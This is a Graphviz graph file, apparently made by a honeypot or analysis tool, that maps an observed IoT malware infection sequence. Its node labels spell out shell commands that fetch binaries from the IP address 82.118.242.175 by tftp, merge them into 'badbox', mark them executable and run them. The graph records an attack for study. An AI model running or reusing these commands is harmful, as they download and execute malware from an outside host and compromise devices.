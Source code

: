 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 14 [label="||,"];
14 [label="tftp 82.118.242.175 -c get ntpd "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 34 [label="||,"];
34 [label="tftp 82.118.242.175 -c get sshd "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 54 [label="||,"];
54 [label="tftp 82.118.242.175 -c get openssh "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 73 [label="||,"];
}
